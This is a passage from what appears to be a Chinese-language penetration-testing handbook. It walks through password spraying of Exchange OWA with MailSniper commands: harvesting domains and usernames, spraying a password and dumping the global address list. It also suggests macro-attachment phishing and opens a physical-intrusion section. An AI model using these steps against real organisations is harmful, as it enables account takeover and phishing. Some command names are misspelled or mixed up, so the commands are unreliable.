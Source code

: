 为了防止暴力破解导致的账户锁定，而你又知道账户的初始化密码，可能存在大量未修改密码账户，因此就可以针对尝试使用这一个密码尝试登录多个用户名。

密码喷洒密码喷洒和暴力破解区别是什么呢？前者是一个密码对多个账户进行登录，后者是一个账户尽可能使用多个密码尝试登录。

PS：示例待更新，因为要把 Exchange 和 Office 365 做成专题。这里举例可以换成 RDP、SSH 等等

##### Exchange

[https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)

导入脚本。

```bash
ipmo .\MailSniper.ps1
```

Invoke-DomainHarvestOWA 获取 NetBIOS 名。

```powershell
Invoke-DomainHarvestOWA -ExchHostname <host>
```

Invoke-UsernameHarvestOWA 验证邮箱名。

```powershell
Invoke-UsernameHarvestOWA -ExchHostname <host> -UserList .\userName.txt -OutFile SprayedResult-ValidUserames.txt
```

如果目标有多个域，可以用 -Domain 指定子域去验证邮箱名。

```powershell
Invoke-DomainHarvestOWA -ExchHostname <Host> -Domain <domain> -UserList .\userName.txt -OutFile SprayedResult-ValidUserames.txt
```

喷洒密码。

```powershell
Invoke-PasswordSparyOWA -ExchHostname <Host> -UserList .\userName.txt -Password <Password> -OutFile SprayedResult-ValidAccounts.txt
```

*OPSEC：每次失败都有记录，达到一定次数触发账户锁定策略。*

一旦获取一个有效账户后可以去下载所有 Email 地址 重复枚举其密码。

```powershell
Get-GlobalAddressList -ExchHostname <Host> -UserName <Domain>\<username> -Password <Password> -OutFile SprayedResult-GlobalMailAddressList.txt
```

获取到一堆有效账户后，可以登录去搜敏感信息，甚至主动发邮件钓鱼，比如把要回复的邮件原本附件中添加宏。

##### Office 365

### 1.3 近源渗透⚒️

物理渗透、物理攻击、近源渗透，这几个的意思都是在接近目标进行安全测试。不光要会攻击，有时候涉及到开锁、复制卡这种硬件技能。🤣

需要寻找的目标：

-   办公区开放使用的自助终端机，比如申请门禁，自助挂号
-   大厅开放的信息展示大屏，播放视频用，但支持触屏功能
